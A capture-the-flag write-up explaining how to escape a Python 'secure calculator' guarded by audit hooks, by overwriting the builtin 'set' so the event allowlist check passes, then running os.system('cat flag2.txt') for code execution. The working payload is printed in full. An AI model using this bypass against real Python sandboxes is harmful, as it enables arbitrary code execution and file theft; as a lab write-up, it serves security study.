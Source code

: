 # HAXLAB - Flag Leak 2

The challenge provided a python file implementing a secure calculator. It requires at least python 3.8.5 to run, as it makes use of audit hooks, which has been added along 3.8 and had some fixes in more recent versions.

The script is the same as in the previous version of the challenge, but it requires Remote Code Execution to obtain the content of ```flag2.txt```. The general approach followed in the previous challenge is not adequate, and additional techniques must be used.

An important approach is to list what is available in the builtins:
``` 
>>> exec("for k,v in enumerate(globals()['__builtins__']): print(k,v)")
0 __name__
1 __doc__
2 __package__
3 __loader__
4 __spec__
5 __build_class__
6 __import__
7 abs
8 all
9 any
10 ascii
11 bin
12 breakpoint
13 callable
14 chr
15 compile
16 delattr
17 dir
18 divmod
19 eval
20 exec
21 format
22 getattr
23 globals
24 hasattr
25 hash
26 hex
27 id
28 input
29 isinstance
30 issubclass
31 iter
32 len
33 locals
34 max
35 min
36 next
37 oct
38 ord
39 pow
40 print
41 repr
42 round
43 setattr
44 sorted
45 sum
46 vars
47 None
48 Ellipsis
49 NotImplemented
50 False
51 True
52 bool
53 memoryview
54 bytearray
55 bytes
56 classmethod
57 complex
58 dict
59 enumerate
60 filter
61 float
62 frozenset
63 property
64 int
65 list
66 map
67 object
68 range
69 reversed
70 set
71 slice
72 staticmethod
73 str
74 super
75 tuple
76 type
77 zip
78 __debug__
79 BaseException
80 Exception
81 TypeError
82 StopAsyncIteration
83 StopIteration
84 GeneratorExit
85 SystemExit
86 KeyboardInterrupt
87 ImportError
88 ModuleNotFoundError
89 OSError
90 EnvironmentError
91 IOError
92 EOFError
93 RuntimeError
94 RecursionError
95 NotImplementedError
96 NameError
97 UnboundLocalError
98 AttributeError
99 SyntaxError
100 IndentationError
101 TabError
102 LookupError
103 IndexError
104 KeyError
105 ValueError
106 UnicodeError
107 UnicodeEncodeError
108 UnicodeDecodeError
109 UnicodeTranslateError
110 AssertionError
111 ArithmeticError
112 FloatingPointError
113 OverflowError
114 ZeroDivisionError
115 SystemError
116 ReferenceError
117 MemoryError
118 BufferError
119 Warning
120 UserWarning
121 DeprecationWarning
122 PendingDeprecationWarning
123 SyntaxWarning
124 RuntimeWarning
125 FutureWarning
126 ImportWarning
127 UnicodeWarning
128 BytesWarning
129 ResourceWarning
130 ConnectionError
131 BlockingIOError
132 BrokenPipeError
133 ChildProcessError
134 ConnectionAbortedError
135 ConnectionRefusedError
136 ConnectionResetError
137 FileExistsError
138 FileNotFoundError
139 IsADirectoryError
140 NotADirectoryError
141 InterruptedError
142 PermissionError
143 ProcessLookupError
144 TimeoutError
145 open
146 quit
147 exit
148 copyright
149 credits
150 license
151 help
152 _
```

We can use some of this entries, but if they trigger an audit event, they will mostly be blocked.
The reason is that as two lines only allow events presented on a fixed set:
```
...
    ALLOWED_EVENTS = set({'builtins.input', 'builtins.input/result', 'exec', 'compile'})
    if event not in ALLOWED_EVENTS:
...
```

While the code may seem to be fail proof, you can see that the use of ```set``` is not required to implement such filter. It is actually the attack vector.

Because we have access to ```globals()['__builtins__']```  we can redefine many core funtions, and we can redefine ```set```, providing an alternative implementation.

This implementation will ignore the argument provided an return a fixed set, with a content we can control. The content includes previous events and then the events we require to call a system command or to open a file. Basically we get full control over the program and can execute any code we want.

Because the objective is to demonstrate arbitrary RCE, our object is to include ```os.system``` and define ```set``` ```as lambda x: ['builtins.input', 'builtins.input/result','exec', 'os.system']```. 
The result is our payload, that will obtain the flag.

```
>>> exec("globals()['__builtins__']['set']=lambda x: ['builtins.input', 'builtins.input/result','exec', 'compile', 'os.system']\nimport os\nos.system('cat flag2.txt')")

```

This was solved minutes after the CTF, so the flag was not available to us.
